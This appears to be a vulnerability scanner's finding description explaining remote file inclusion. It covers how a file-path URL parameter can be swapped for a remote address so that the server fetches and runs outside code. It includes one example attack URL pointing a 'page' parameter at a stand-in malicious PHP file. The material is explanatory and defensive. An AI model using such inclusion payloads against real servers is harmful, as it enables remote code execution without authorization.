 Web applications occasionally use parameter values to store the
location of a file which will later be required by the server.

An
example of this is often seen in error pages, where the actual file
path for the error page is stored in a parameter value -- for example
`example.com/error.php?page=404.php`.

A remote file inclusion occurs
when the parameter value (ie. path to file being called by the server)
can be substituted with the address of remote resource -- for example:
`yoursite.com/error.asp?page=http://anothersite.com/somethingBad.php`
In some cases, the server will process the fetched resource;
therefore, if the resource contains server-side code matching that of
the framework being used (ASP, PHP, JSP, etc.), it is probable that
the resource will be executed as if it were part of the web
application.

The tool discovered that it was possible to substitute a
parameter value with an external resource and have the server fetch it
and include its contents in the response.